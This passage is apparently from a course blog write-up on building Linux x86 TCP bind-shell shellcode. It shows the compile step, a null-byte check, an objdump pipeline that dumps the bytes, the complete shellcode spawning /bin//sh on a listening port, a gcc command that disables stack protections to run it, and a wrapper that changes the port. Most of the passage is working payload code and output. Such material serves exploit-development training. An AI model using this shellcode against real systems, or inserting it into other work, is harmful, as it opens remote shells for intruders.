 Let's compile with the [compile.sh](https://github.com/phackt/slae/blob/master/assignment1/compile.sh) script:  
```bash
./compile.sh shell_bind_tcp
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```
  
Let's run shell_bind_tcp and try to connect from another shell:  
![image4]({{ site.url }}/public/images/slae/assignment1/image4.png)  
  
What we have to take care in shellcodes are bad characters. Each compromised application will lead to its own set of bad characters that we will need to avoid in the shellcode part of the exploit.    
Right now let's check that our shellcode do not contain null bytes:  
```bash
objdump -d shell_bind_tcp -M intel | grep 00
```
  
Great, no null bytes. Let's dump our shellcode:  
```bash
objdump -d ./shell_bind_tcp|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xdb\xf7\xe3\xb0\x66\xb3\x01\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\x66\x68\x1f\x90\x66\x6a\x02\x89\xe3\x6a\x10\x53\x57\x31\xdb\xf7\xe3\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x52\x57\x31\xdb\xf7\xe3\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x31\xdb\xf7\xe3\x52\x52\x57\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
```
  
Let's execute it in [shellcode.c](https://github.com/phackt/slae/blob/master/assignment1/shellcode.c):  
```bash
gcc -fno-stack-protector -z execstack -o shellcode shellcode.c && ./shellcode
```
  
Then from another shell:  
![image5]({{ site.url }}/public/images/slae/assignment1/image5.png)  
  
One easy way to customize the listening port is to set a pattern in the source file and to generate the shellcode thanks to a wrapper script.  
We are creating a shell_bind_tcp.template and updating the following part:  
```push word 0x901f``` becomes ```push word PORT```.  
  
Now we will use the [wrapper.sh](https://github.com/phackt/slae/blob/master/assignment1/wrapper.sh) script:  
```bash
./wrapper.sh
Usage: ./wrapper.sh <port_number> <pattern> <file>
```
```bash
./wrapper.sh 8080 PORT ./shell_bind_tcp.template 
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
"\x31\xdb\xf7\xe3\xb0\x66\xb3\x01\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\x66\x68\x1f\x90\x66\x6a\x02\x89\xe3\x6a\x10\x53\x57\x31\xdb\xf7\xe3\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x52\x57\x31\xdb\xf7\xe3\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x31\xdb\xf7\xe3\x52\x52\x57\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
```  

So now we can parametrize the port number and generate a TCP port binding shellcode.  
  
Hope you enjoyed,  
Thanks a lot and as i'm used to saying, do not hesitate to comment and share.  
  
[Phackt](https://twitter.com/phackt_ul)

